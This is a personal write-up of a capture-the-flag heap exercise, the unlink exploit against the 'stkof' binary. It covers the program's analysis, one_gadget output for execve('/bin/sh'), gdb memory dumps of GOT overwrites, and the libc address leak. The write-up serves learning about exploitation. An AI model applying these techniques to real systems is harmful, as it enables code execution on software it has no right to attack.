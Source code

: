 # unlink

This section contains illustrations of the unlink exploit, described in `08_heap/01_exploits_examples/04_unlink`.

# stkof

```bash
❯ file stkof
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
```

```bash
❯ pwn checksec stkof
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Seems to ask for an input, and displays `FAIL` a number of time. Upon analysis with ghidra, the logic is a bit cryptic but here is what it does:
* `1`: allocate with a `malloc` a pointer (which size we can request !) and append it to an array of such pointers. The base of the array seems to be at `DAT_00602140`, while the current size is `DAT_00602100`. It will also print the value of `DAT_00602100`.
* `2`: read an input from the user. First asks for an index to edit, then if it is allocated we give again the index of the section we want to write to. Then we read until we got to the length we specified (and there is probably a little bound check bug here).
* `3`: free an index we specify. If it was allocated, it will free it and set it to null.
* `4`: I don't really get this one. If the index we give was allocated and the length of the string is less than 4, it will display `//TODO` else `...`. Maybe overwrite `puts` got entry ?

I first tried to see if I can conduct a double free (with my own libc-2.31), without success. After that, I resorted to follow the tutorial, by using a unlink exploit (with libc-2.23).

To do the unlink exploit, one has to craft a fake chunk that will be correct enough so that it will be unlinked. The `correct enough` part comprises three parts:
* correct fw/bk pointers
* correct size metadata
* fd next size checks pass (or we avoid them by setting it to 0x0)

As per the tutorial I started creating helper methods to interact with the executable. One of the issue I met was with the `read` helper, where I put more string value than I intended to. As a result, the remaining string would then be fed to the option selection, which would give me `FAIL` messages.

The fake chunk will have to reproduce the following structure:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

The gadget that will be used by the exploit is given by:
```bash
one_gadget libc-2.23.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
The conditions for the first two does not seem to be fulfilled. The remaining two seem to work.

As for how all of this work I have not wrapped my head around it yet. I can see that after the free there is our forged entry in the list of pointers:
```
gef➤  x/10g 0x00602140
0x602140:	0x0000000000000000	0x00000000010a4020
0x602150:	0x00000000010a44e0	0x00000000010a4590
0x602160:	0x0000000000602148	0x00000000010a46f0  <-- here
0x602170:	0x00000000010a47a0	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
```

Then after the following `read` call:
```
gef➤  x/10g 0x00602140
0x602140:	0x0000000000000000	0x0000000000602030  <-- got address of strlen
0x602150:	0x0000000000602070	0x00000000010a4590  <-- got address of malloc
0x602160:	0x0000000000602148	0x0000000000000000
0x602170:	0x00000000010a47a0	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
```
We can see that we used the pointer we inserted with our `free` exploit to write two other pointers in the list of pointers.

The next call to `read` will overwrite what is pointed by the first pointer (i.e. strlen's got address) with the one for `puts`.

Before:
```
gef➤  x/10g 0x00602140
0x602140:	0x0000000000000000	0x0000000000602030
0x602150:	0x0000000000602070	0x00000000010a4590
0x602160:	0x0000000000602148	0x0000000000000000
0x602170:	0x00000000010a47a0	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
gef➤  x 0x0000000000602030
0x602030 <strlen@got.plt>:	0x0000000000400786
gef➤  x 0x0000000000400786
0x400786 <strlen@plt+6>:	0xffb0e90000000368
```
After:
```
gef➤  x/10g 0x00602140
0x602140:	0x0000000000000000	0x0000000000602030
0x602150:	0x0000000000602070	0x00000000010a4590
0x602160:	0x0000000000602148	0x0000000000000000
0x602170:	0x00000000010a47a0	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
gef➤  x 0x0000000000602030
0x602030 <strlen@got.plt>:	0x0000000000400760
gef➤  x 0x0000000000400760
0x400760 <puts@plt>:	0x0168002018ba25ff
```
So from now on when we call `strlen` we are calling `puts` instead !

Then when we do the `leak` call, the code is going to check the length of the data pointed by the ith pointer. However, the 2nd pointer is pointing at the got address of malloc, and the length check is now replaced with `puts`. So we get the address of malloc.

From now on the rest is quite easy: we compute the base for libc from the leak, and we deduce the address for our gadget. We then put our gadget in the place of `malloc` by overwriting it's got entry (remember, it's the second entry in our pointer list). The next time we call `malloc`, it will trigger our gadget instead.

Unfortunatly the exploit ended with a:
```
$ ls
ls: ./libc-2.23.so: version `GLIBC_2.30' not found (required by /lib/x86_64-linux-gnu/libselinux.so.1)
```
I guess if I execute `stkof` in a machine with a native libc2.23 env and attach remotely the pwn program I would be able to pop a shell.